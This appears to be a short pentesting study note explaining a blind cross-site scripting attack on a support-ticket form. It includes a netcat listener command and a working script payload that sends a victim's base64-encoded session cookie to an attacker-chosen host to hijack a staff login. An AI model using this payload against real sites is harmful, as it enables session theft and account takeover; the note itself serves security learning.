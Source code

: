 ```yaml
---
title: Practical XSS example
---
```


Let's say we want to exploit a [[cybersecurity/knowledge/pentesting/blind-xss]] vulnerability we've found.

We have a Support Ticket system in which we may create tickets, which content `textarea` field is vulnerable to [[cybersecurity/knowledge/pentesting/XSS]].

We know we're able to run JavaScript code, but we don't have access to the content on our own, so we can't list anything. But we can expand the [[cybersecurity/knowledge/glossary/payload]] to send sensitive content to our own server using [[cybersecurity/knowledge/tools/netcat]].

Because we're dealing with Support Ticket system, it's reasonable to assume that a staff member will also view this ticket which we could get to execute JavaScript.

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session.

To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information:

```sh
$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, we build the payload:

`</textarea><script>fetch('http://{URL_OR_IP:PORT}?cookie=' + btoa(document.cookie) );</script>`

> [!tip] `btoa()` encodes the victim's cookies with base64.

Once the user opens a ticket, we can decode the cookies.
